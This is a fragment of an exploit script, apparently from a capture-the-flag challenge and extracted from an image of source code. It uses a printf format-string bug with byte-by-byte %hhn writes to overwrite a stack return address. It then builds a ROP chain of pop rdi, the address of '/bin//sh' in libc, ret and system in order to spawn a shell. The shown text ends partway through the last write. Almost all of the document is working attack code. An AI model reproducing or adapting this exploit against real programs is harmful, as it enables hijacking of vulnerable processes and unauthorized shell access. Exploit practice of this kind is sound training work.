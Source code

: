 ```bash
# one_gadgets = addr_libc_base + offset[2]
print("pop_rdi", hex(addr_pop_rdi))
print("main_re", hex(addr_libc_base + libc.dump("__libc_start_main") + 243))

change_byte = addr_pop_rdi
addr_write = addr_stack_buf + 0x60 + 0x08
# 修改返回地址
for i in range(4):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 /bin//sh 的地址
change_byte = addr_libc_base + 0x1b45bd
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 ret
change_byte = addr_ret
addr_write = addr_write + 0x08
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

# 写入 system
change_byte = addr_system
addr_write = addr_write + 0x08
```